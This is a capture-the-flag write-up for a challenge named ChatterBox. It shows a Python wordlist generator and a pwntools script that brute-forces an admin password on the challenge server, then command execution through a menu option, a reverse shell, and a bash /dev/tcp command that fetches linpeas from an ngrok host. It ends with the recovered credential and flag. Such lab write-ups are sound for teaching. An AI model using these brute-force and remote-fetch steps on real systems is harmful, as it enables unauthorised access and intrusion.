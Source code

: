 #### ChatterBox
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6bb8ee28-f7ad-4803-a864-700b9a1e31a2)

This challenge isn't really binary exploitation in my opinion just more of like scripting

Anyways we are given this:

```
If you ever need to talk, just reach out to any of our employees.

As a side note, we think you should know we like talking in months and days. Hopefully you understand.
```

Connecting to the remote instance shows this prompt
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/29c4cb02-fc71-4e12-9472-98f7bd319d04)

So we are to find a way to access this

I assumed that the username will be `admin` but now for the password how do we go about it?

Well I can always try brute force using a wordlist like rockyou but it might take a while

So back to what the description says :

```
As a side note, we think you should know we like talking in months and days. Hopefully you understand.
```

This is a hint that's based on using months and days

I then make a script to create a wordlist and brute force the password

Here's the script I used to create the [wordlist](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/csean/pwn/chatterbox/wordlist.py)

```
#!/usr/bin/python3

# Hint to how the password should be: As a side note, we think you should know we like talking in months and days. 

# Months
months = ['January', 'February', 'March', 'April', 'May', 'June', 'July', 'August', 'September', 'October', 'November', 'December']
months_upper = [j.upper() for j in months]
months2_lower = [i.lower() for i in months]

# Date
dates = [str(date) for date in range(32)]

# Form the wordlist
wordlist = []

for month in months:
    for date in dates:
        wordlist.append(month + date)

for month in months_upper:
    for date in dates:
        wordlist.append(month + date)

for month in months2_lower:
    for date in dates:
        wordlist.append(month + date)


# Save wordlist
with open('wordlist.txt', 'w') as fd:
    for i in wordlist:
        fd.write(i+'\n')
```

And I used this to [brute force](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/csean/pwn/chatterbox/brute.py)

```python
#!/usr/bin/python3
from pwn import *
import sys
from multiprocessing import Pool as pool
from warnings import filterwarnings

# Set context
context.log_level = 'info'
filterwarnings('ignore')

# Define a function for the brute force >3
def brute_password(password):
    io = remote('0.cloud.chals.io', 33091)
    io.recv(1024) 
    io.sendline(b"admin")
    io.recv(1024)
    io.sendline(password)
    result = io.recv(1024)
    print(result)
    if b"Invalid credentials" not in result:
        print(f'Password: {password}')
        
        
# Read password from the wordlist 
with open('wordlist.txt', 'r') as fd:
    wordlist = fd.readlines()

if __name__ == '__main__':
    start = pool(int('5'))
    start.map(brute_password, wordlist)

# Credential: admin:july10
```

I can now connect to the remote instance
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a553da93-05dc-47b8-ad86-2398837cf7fe)

The Check Operational Status looked interesting

I choose the option and was able to run os commands
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d06426bf-1337-4cb2-ac1c-e64e57bb897b)

At this point I got a reverse shell and uploaded linpeas to the box

But the issue was no binary was available and of cause this is excepted cause we are in a docker container

Using bash I was able to upload linpeas

```
Host: python3 -m http.server 80

Target:-
exec 3<>/dev/tcp/6.tcp.eu.ngrok.io/10577
echo -e "GET /linpeas.sh HTTP/1.1\n\n">&3
cat <&3 > linpeas.sh
```

And when I ran it

```
chmod +x linpeas.sh
bash linpeas.sh
```

I saw the flag in the environment variable
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2270207c-1618-4dd7-bbf2-d6d3f547ffc9)

```
Flag: csean-ctf{SOMETIMES_I_WONDER_HOW_th!s_3v3n_PASSED_BeT4_TEST!}
```
